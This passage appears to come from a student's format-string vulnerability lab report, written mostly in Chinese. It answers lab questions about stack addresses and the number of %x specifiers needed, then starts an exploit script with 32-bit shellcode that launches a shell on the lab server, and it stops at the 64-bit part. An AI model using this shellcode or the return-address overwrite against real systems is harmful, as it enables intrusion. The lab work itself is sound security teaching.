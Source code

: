 ![image-20231211164407343](/img/posts/2023-12-11-格式化字符串实验报告.assets/image-20231211164407343.png)

**Question 1: What are the memory addresses at the locations marked by 2 and 3?**

  ②是函数`myprintf`的返回地址，地址应为`frame pointer+4 = 0xffffcfac`③是`buf`的起始地址，可以从服务器输出直接获得：`0xffffd080`

**Question 2: How many %x format specifiers do we need to move the format string argument pointerto 3? Remember, the argument pointer starts from the location above 1.**

由上文可知，buf的前四字节需要64个%x才可以达到。

### 6.3 Your Task

获取server的shell。

需要修改函数`myprintf`的返回地址为`shellcode`地址，将`shellcode`放在buf末尾，然后使用上文的方法将shellcode地址写入返回地址即可：

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
```
